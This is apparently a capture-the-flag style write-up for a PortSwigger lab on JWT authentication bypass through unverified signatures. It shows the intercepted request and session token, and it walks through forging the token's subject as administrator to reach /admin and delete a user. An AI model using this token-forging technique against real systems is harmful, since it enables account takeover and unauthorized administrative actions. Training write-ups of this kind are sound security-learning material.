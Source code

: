 # JWT authentication bypass via unverified signature

Link: https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature

This lab uses a JWT-based mechanism for handling sessions. Due to implementation flaws, the server doesn't verify the signature of any JWTs that it receives.

To solve the lab, modify your session token to gain access to the admin panel at /admin, then delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter

### solution

- start by logging in using the creds wiener:peter as mentioned in the challange
- when you access /admin endpoint you will get this message `Admin interface only available if logged in as an administrator`
- go to burp suit and intercept this request
```
GET /admin HTTP/2
Host: 0ab0008603711fb780d8493700990063.web-security-academy.net
Cookie: session=eyJraWQiOiJiYTk2OTNhMS1iMmMxLTRmZDItOWQyYS0zZGQzMWJiMzQ2NzYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwNzM4MjU2M30.rrLdMa1ekPuusLkndICXHtBQhI3jULos4T3EP0cX4vKRKhKcOiGvPxwVZB5VD6IdTJzoeLbe-uW9LxdtJQngDLX4LBNjtvn9NDues1ccVSw9nE7EkvOmubKv1_fuytjZ4xeGG6kQXXgS4rXIl3ARvZwBC0FSRaPqO4rGVhZWhswA7Nd4BBtuuHhvLYfY9HXzuO7f2SNGwb0UL5bttHYpth-5HlTveu5aBedVGwDtx3CV4E7UaSLqqJqinAJDmLnCfV-BuyzNeJvUI4wkGEK9rFL7s7adeipV8o2g0TxmpbdQNouBYRJr4FLPFB5K6ndYDSU7yExz1fzs6f1LmgeOvg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```
- We see that interesting cookie session which is JWT
- Decode the payload and it will be
`{"iss":"portswigger","sub":"wiener","exp":1707382563}`
- changing `wiener` to `administrator` then encode it again and send the request after the modification
- We accessed `/admin` successfully
- now let's delete carlos by sending the request to `/admin/delete?username=carlos`
- congratzzzzzzzzzzzzzzzz